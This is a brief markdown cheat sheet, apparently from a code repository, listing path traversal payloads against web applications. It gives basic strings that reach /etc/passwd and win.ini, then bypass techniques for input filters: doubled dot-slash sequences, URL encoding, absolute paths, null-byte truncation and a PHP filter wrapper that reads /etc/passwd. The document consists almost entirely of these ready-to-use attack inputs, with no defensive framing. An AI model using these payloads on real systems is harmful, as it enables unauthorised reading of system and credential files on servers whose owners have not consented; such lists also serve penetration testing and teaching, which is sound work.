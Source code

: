 # Path Traversal Cheat Sheet
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
```txt
Sequence block bypass >> ....//....//....//....//etc/passwd
Encoding ../ >> %2e%2e%2f
Absolute path >> /var/www/images/../../../etc/passwd
Using null byte >> ../../../etc/passwd%00.png
Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
```
